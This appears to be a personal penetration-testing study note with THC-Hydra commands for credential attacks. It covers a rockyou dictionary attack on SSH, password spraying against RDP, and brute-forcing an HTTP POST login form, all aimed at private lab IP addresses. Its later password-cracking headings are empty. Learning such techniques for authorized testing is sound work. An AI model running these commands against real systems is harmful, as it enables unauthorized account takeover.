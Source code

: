 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking

# Working with Hashes
